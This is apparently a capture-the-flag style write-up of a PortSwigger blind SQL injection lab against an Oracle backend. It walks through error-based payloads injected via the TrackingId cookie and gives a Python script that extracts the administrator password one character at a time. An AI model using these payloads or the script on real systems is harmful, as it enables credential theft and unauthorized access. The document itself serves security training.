







# Lab10: Blind SQL injection with conditional errors
* url: `https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors`
* vulnerability: `Blind SQL injection with conditional errors`


## Description 
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

## Proof of Concept
1. Navigate to any of the hyperlinks for `Product Category`, and intercept the request with Burp Suite 
2. Right click on the `GET` request and send the request to `Repeater` for further inspection and tests  

3. I test the `TrackingId` cookie with the injections of `'` and `''` to see how the web application responds.
The web application gives an `internal server error` when I inject a single quote to the trackingid value, however
when I inject two single quotes to the value of the trackingid cookie, it does not give me an error.
Although this is not proof that SQLi vulnerability exists, it's a good indication. 
> In many databases (including Oracle), `' '` is interpreted as a **literal** single quote `'`. This
fixes the syntax, and the query works normally again. No error returned. 

4. When you inject something like a malicious payload into a web application, there could be 
many reasons the application returns an error like:  
* **SQL Errors**: The server runs your input as `SQL`, and your input causes a `SQL syntax error`
* **Application-Level Errors**: The server might have other security mechanisms that reject
`invalid input` before it even gets to the database  
To confirm that the error is related to `SQL syntax`, I need to see if the server is processing
my input as part of an `SQL query`. If the error is SQL-related, it means the server is treating
my input as SQL, and I have successfully injected something that the database interprets. 
5. In step 3, the injection of a single quote `'` caused an error, however it did not specify
what kind of error. It only returned `internal server error`. To confirm that the error is SQL-syntax
related, I can inject a subquery like: `'||(SELECT '')||'`. This will create a valid query like:
`SELECT * from tracking where id = 'xyz' || SELECT('') || ''`
> This will take `xyz` concatenate it with the rest of the subquery (select ''), which is an 
empty string and finally concatenates it to another empty string after that. This ensures that 
the SQL query's syntax is still valid and should run as if nothing was changed for the cookie's value. 

  
6. As you can see from running the payload in the request, I still reach an `internal server error`.
I can test if the target DBMS is `Oracle` by adding a `FROM dual` statement in the subquery.  
  
7. Because I reached a status code of 200 OK, I can conclude that I'm dealing with an Oracle
database and that the DBMS is interpreting my input as SQL code.  
8. Now I can utilize Oracle's `ROWNUM` in order to check for the existence
of the users table (even though I know it exists already, its a good habit to have). 
```
1. Why use ROWNUM instead of LIMIT? 
  - Oracle DBMS doesn't recognize the LIMIT keyword. Instead, Oracle uses ROWNUM to limit 
  the number of rows that is retrieved from a query. 

2. Why use ROWNUM in the first place? Why can't I do something like SELECT '' from users? 
  - If the subquery returns more than one row of data, Oracle doesn't know how to concatenate
  multiple rows of data. 

3. Why didn't I have to use ROWNUM = 1 in the subquery of: SELECT '' FROM dual?
  - In Oracle, dual is a special table that always contains exactly one row, because 
  it only has one row. 

4. TIP: in the context of SQLi and concatenation, you generally want to return just one 
result to concatenate it cleanly with other parts of the query. 
```
9. Now that I have the general feel of the web application's DBMS, I can send payloads to 
test its responses to errors and non-errors in SQL statements:  
* `'||(SELECT CASE WHEN 1=1 THEN TO_CHAR(1/0) ELSE '' END from dual)||'`
* `'||(SELECT CASE WHEN 1=2 THEN TO_CHAR(1/0) ELSE '' END from dual)||'`   
  
  
10. Notice how the main difference in response is the existence of the `internal server error` message. 
I can use this error message to check for the existence of a user called `administrator` in the `users`
table. If i see an error, I'll know that the `administrator` user exists. Keep in mind that the 
`WHERE` clause is evaluated first before any other parts of the query, including `CASE`.
Payload: `'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator')'`  
   
I can use payloads like this and the existence of an error message to extract any piece of 
information from the DBMS! 
11. To check for the length of the password for `administrator`, I send payloads like: `'||(SELECT CASE WHEN LENGTH(password)=1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator')||'`
I slowly increment the length of password until I see an error (The password length is 20).   
  
12. Next I can use Burp Intruder to evaluate each exact character of the password for administrator user, but because I have the community version, it would be faster for me to write a simple python script.
The payload I will be using is: `'||(SELECT CASE WHEN SUBSTR(password, 1, 1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator')||'`
```
import requests

# global variables 
url = "https://0aa90077033940cc8022089d0001001c.web-security-academy.net/"
characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
password = ""

for x in range(1, 21): 
    for c in characters:
        cookie = dict(TrackingId=f"QGdCCTMOZUdb6ReG'||(SELECT CASE WHEN SUBSTR(password, {x}, 1)='{c}' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator')||'")
        r = requests.get(url, cookies=cookie)
        
        if r.status_code == 500: 
            password += c
            print(f"Found {c} at index {x}")
            break

print(f"The password is: {password}")
```
13. The password I got from this script is `i6br70xqlemjg6q5ir4i`. So I can go ahead and use `administrator` as the user and `i6br70xqlemjg6q5ir4i` as the password to log in and solve the lab!


## Notes
* `CASE` is used for conditinal logic within queries, similar to `if-else` statements in programming. It allows you to create new fields or modify values based on conditions 
* Syntax: 
  * `SELECT column1, CASE WHEN condition1 THEN result1 WHEN condition2 THEN result2 ELSE default_result END FROM table_name;`
  * `SELECT CASE WHEN condition1 THEN result1 WHEN condition2 THEN result2 ELSE default_result FROM table_name;`
* `Oracle DBMS` require a `FROM` statement for a valid SQL query! 
  * `dual` is a special table in oracle that exists by `default`. You can utilize this 
  information by using `dual` as a `dummy` table!
* `ROWNUM` gives each row in the result a number, starting from 1
  * so combining the `WHERE` clause in a SELECT statement will return the first row if: 
  `... WHERE ROWNUM = 1`
* `TO_CHAR` is a function in SQL (primarily in Oracle) taht converts data into a string format
  * other DBMS like PostgreSQL and MySQL have similar functions, but they may use different names
  like `CAST()` or `CONVERT()`
